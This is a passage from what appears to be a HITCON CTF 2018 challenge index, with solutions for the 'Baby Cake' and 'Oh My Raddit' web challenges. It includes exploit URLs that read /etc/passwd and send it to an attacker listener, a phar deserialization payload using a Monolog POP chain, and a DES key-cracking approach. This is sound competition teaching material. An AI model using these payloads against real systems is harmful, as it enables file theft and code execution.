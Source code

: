 * [(English)One Line PHP Challenge](https://hackmd.io/s/B1A2JIjjm)  
* [(中文)One Line PHP Challenge](https://hackmd.io/s/SkxOwAqiQ)  
* [hitcon2018 One Line PHP Challenge](https://www.kingkk.com/2018/10/hitcon2018-One-Line-PHP-Challenge/)  
* [hitcon 2018受虐笔记一:one-line-php-challenge 学习](http://wonderkun.cc/index.html/?p=718)  

## **Baby Cake**
  
Difficulty: **★★★**  
Solved: **4 / 1816**  
Tag:   **Code Review**, **PHP**, **De-serialization**

#### Source Code

* [index.php](hitcon-ctf-2018/baby-cake/baby_cake.tgz)  

#### Solution

Due to the implement of **`CURLOPT_SAFE_UPLOAD`** in CakePHP `FormData.php`. We can read arbitrary files!

```sh
# arbitrary file read, listen port 12345 on your server
http://13.230.134.135/
?url=http://your_ip:12345/
&data[x]=@/etc/passwd

# arbitrary de-serialization the Monolog POP chain
http://13.230.134.135/
?url=http://your_ip:12345/
&data[x]=@phar://../tmp/cache/mycache/[you_ip]/[md5_of_url]/body.cache
```

* [exploit.phar](hitcon-ctf-2018/baby-cake/exploit.phar)

#### Write Ups

* [Baby Cake](https://github.com/PDKT-Team/ctf/tree/master/hitcon2018/baby-cake)  
* [Hitcon 2018 Web - Oh My Raddit / Baby Cake 题解](https://xz.aliyun.com/t/2961)  
* [HITCON CTF 2018 Web WP 之 Baby Cake](https://xz.aliyun.com/t/3035)  

## **Oh My Raddit**
  
Difficulty: **★★☆**  
Solved: **27 / 1816**  
Tag:   **Observation**, **DES checksum**, **Crypto**, **Web**

#### Source Code

* [app](hitcon-ctf-2018/oh-my-raddit/src/)  

#### Solution

1. Know `ECB` mode from block frequency analysis
2. Know `block size = 8` from cipher length
3. From the information above, it's reasonable to use `DES` in real world
4. The most common block is `3ca92540eb2d0a42`(always in the cipher end). We can guess it's the padding `\x08\x08\x08\x08\x08\x08\x08\x08`
5. Due to the checking parity in [DES](https://en.wikipedia.org/wiki/Data_Encryption_Standard), we can reduce the keyspace from 26(`abcdefghijklmnopqrstuvwxyz`) to 13(`acegikmoqsuwy`)
    * Break in 1 second with `HashCat`
    * Break in 10 minutes with single thread Python
